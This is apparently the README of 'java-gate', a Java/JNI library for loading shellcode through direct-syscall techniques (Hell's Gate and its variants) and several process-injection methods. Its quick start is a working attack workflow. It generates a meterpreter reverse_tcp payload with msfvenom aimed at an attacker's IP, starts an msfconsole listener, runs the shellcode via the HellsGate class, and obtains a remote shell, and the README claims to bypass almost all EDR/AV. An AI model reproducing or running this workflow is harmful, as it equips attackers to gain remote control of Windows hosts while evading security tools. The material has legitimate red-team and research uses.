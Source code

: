 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

[中文文档](doc/README.zh-CN.md)

The `java-gate` project allows for the implementation of various techniques related to "Hell's Gate" using simple Java code, which involves direct system calls.

```java
byte[] shellcode = new byte[] {(byte)0xfc, (byte)0x48, ...};
HellsGate gate = new HellsGate(shellcode);
gate.exec();
```

It supports multiple techniques evolved from "Hell's Gate," such as "Halo's Gate," "Recycled Gate," "Tartarus Gate," and so on. In addition to system call-related functions, it provides many common Shellcode injection techniques, such as APC injection and remote thread injection, and is compiled and built using C and NASM/MASM assembly language. Finally, it calls these techniques at the Java layer through JNI. Various low-level techniques can be achieved through simple Java code.

## Introduction

Why named "java-gate": This project mainly integrates various techniques related to direct system calls, such as Hell's Gate and Halo's Gate. Therefore, it is named "Java Gate," which can also be understood as a gateway between Java and the underlying system.

Note:

- This project only supports 64-bit Windows and 64-bit JVM (as per JNI's requirement that a 64-bit JVM can only load 64-bit DLLs).
- It is recommended to use 64-bit shellcode (e.g., windows/x64/meterpreter/reverse_tcp).
- Loading shellcode in any way may potentially cause JVM crashes (e.g., if the shellcode does not restore the context).
- Only tested in JDK 8, other versions of JDK may not be stable.

## Quick Start

(1) Add the `jitpack` repository to your `Maven` configuration:

```xml
<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) Import the project:

```xml
<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.2</version>
</dependency>
```

(3) Obtain the shellcode

Here, we'll use `meterpreter` as an example.

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) Start the `msfconsole` listener

Here, we'll use `meterpreter` as an example.

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) Write a test program

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) Go online

The `msfconsole` connection is successfully established.

The system call modules are as follows. Usage is similar to the previous examples, just change the class name.

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

The loader modules are as follows. Usage is similar to the previous examples, just change the class name.

| Module     | Class                                | Description                                              | Optional     |
|:-----------|:-------------------------------------|:---------------------------------------------------------|:-------------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | APC injection using NtTestAlert                          | /            |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | Simple thread-based APC injection                        | /            |
| crt        | me.n1ar4.gate.loader.CRTLoader       | Simple remote thread injection                           | Process name |
| divide     | me.n1ar4.gate.loader.DivideLoader    | Create process and inject into it                        | /            |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | Create new process and APC inject                        | /            |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | EtwpCreateEtwThread-based injection                      | /            |
| rip        | me.n1ar4.gate.loader.RIPLoader       | Modify thread context RIP register and execute shellcode | /            |

Here is an example of how to use the command-line tool.

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

Since the JVM may crash, there is a way to create a new process and execute the code.

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

This is also an approach, and if you want to run this project in your custom code, you can refer to the code `JavaGate#runNewJVM`.

## Build

There are pre-packaged versions available in the "Release" section, but if you are not confident or need to add your own features, you can manually build it by following these steps:

Please note that this project only supports Windows 64-bit and JVM 64-bit environments, so it can only be compiled and built in that environment.

**(1) MSVC x64**

The `CMake Toolchains` use the `MSVC x64` tool, and most of the assembly is based on the `ml64` compiler from `MSVC`.

**(2) CMake 3.x**

The `C` and assembly code is compiled and built using `CMake` to generate the corresponding `DLL` file for `JNI`. It is recommended to use CLion.

**(3) NASM**

Most of the assembly is compiled using `MASM`, but some assembly is compiled using `NASM`, which needs to be downloaded and configured separately in the `PATH`.

**(4) JDK 8 & Maven**

The `Java` part of the code is built using `Java 8` and `Maven`. It is recommended to use IDEA.

**(5) Python 3.x**

This project uses `Python` for some auxiliary tools, which is not actually a necessary option.

## Some tests

Almost Bypass all EDR/AV

## References and Acknowledgements

Many thanks to the following excellent projects for providing code (most of the code in this project is based on these):

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## Disclaimer

This tool is intended for cybersecurity research and educational purposes only. It should not be used for any illegal activities.